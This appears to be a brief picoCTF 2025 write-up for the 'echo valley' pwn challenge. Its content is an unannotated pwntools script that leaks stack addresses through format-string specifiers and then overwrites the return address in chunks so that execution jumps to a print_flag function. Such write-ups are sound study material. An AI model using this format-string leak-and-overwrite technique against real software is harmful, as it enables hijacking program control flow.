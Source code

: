 ```yaml
---
title: 'echo valley writeup'
description: 'writeup for echo valley from picoctf 2025!'
date: 2025-06-29
tags: ['picoctf', 'pwn']
authors: ['amcsz']
---
```


Solve script (too lazy to annotate, but you can try to decipher it if you'd like):
```python
import re
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./valley')
p = remote('shape-facility.picoctf.net', 55728)

p.recvuntil(b"Try Shouting: \n")
p.sendline(b"%20$p.%21$p")
res = p.recvline()
matches = re.findall(rb'0x[0-9a-fA-F]+', res)

return_addr_ptr, main_return_addr = matches

return_addr_ptr = int(return_addr_ptr, 16) - 8
main_return_addr = int(main_return_addr, 16)

print_flag_addr = main_return_addr - 426

chunks = [
    print_flag_addr        & 0xffff,               # lowest 2 bytes
    (print_flag_addr >> 16) & 0xffff,              # middle 2 bytes
    (print_flag_addr >> 32) & 0xffff,              # upper 2 bytes
]

write_addrs = [
    return_addr_ptr,
    return_addr_ptr + 2,
    return_addr_ptr + 4,
]

p.sendline(fmtstr_payload(offset=6, writes={write_addrs[0]: chunks[0]}))
p.recv()
p.sendline(fmtstr_payload(offset=6, writes={write_addrs[1]: chunks[1]}))
p.recv()

p.sendline(fmtstr_payload(offset=6, writes={write_addrs[2]: chunks[2]}))
p.recv()
p.sendline(b'exit')

p.interactive()
```
